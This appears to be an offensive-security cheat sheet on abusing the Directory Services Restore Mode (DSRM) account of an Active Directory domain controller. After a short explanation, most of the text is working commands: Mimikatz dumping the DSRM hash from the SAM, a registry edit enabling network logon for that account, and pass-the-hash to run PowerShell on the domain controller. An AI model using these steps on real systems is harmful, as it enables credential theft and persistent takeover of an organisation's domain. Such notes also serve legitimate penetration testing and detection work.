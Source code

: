 - Stands for Directory Services Restore Mode.
- By default, we can't login as the local Administrator in the DC. The password for this account is the DSRM password which was setup during the server installation.
- DSRM password is also called the SafeMode password. It is required when a server is promoted to Domain Controller, or when the server is rebooted in the Safe Mode.
# Abuse
- Dump DSRM password (Required Domain Administrator Privs)
```powershell
token::elevate
lsadump::sam # As DSRM password is a local account, we dump the local SAM database.
```
- This DSRM password can be used to perform Pass-The-Hash attacks
```powershell
# Registry edits are required to enable logon using the local admin
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa" -Name "DsrmAdminLogonBehaviour" -Value 2 -PropertyType DWORD

# Can be verified with
Get-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa"

# Now the hash of this Account can be used to perform pass the hash and get command exection on the DC
sekurlsa::pth /domain:<dc-hostname> /user:Administrator /ntlm:<hash> /run:powershell.exe

# verificaiton
ls \\<dc-machine>\C$
```